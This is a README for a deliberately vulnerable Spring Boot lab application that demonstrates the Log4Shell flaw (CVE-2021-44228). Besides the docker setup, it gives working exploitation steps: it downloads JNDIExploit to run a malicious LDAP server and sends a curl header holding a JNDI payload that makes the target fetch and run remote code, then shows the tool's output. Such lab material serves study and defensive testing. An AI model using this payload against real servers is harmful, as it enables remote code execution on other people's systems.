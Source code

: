 # Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)

## Running the application

Run it the first time (and all time) :

```bash
docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app --rm vulnerable-app
```

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**.*

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528)). Just append `web.archive.org` in front of the JNDIExploit download URL below to use the version cached by the Wayback Machine.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

* Then, trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

* To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp
...
pwned
...
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)
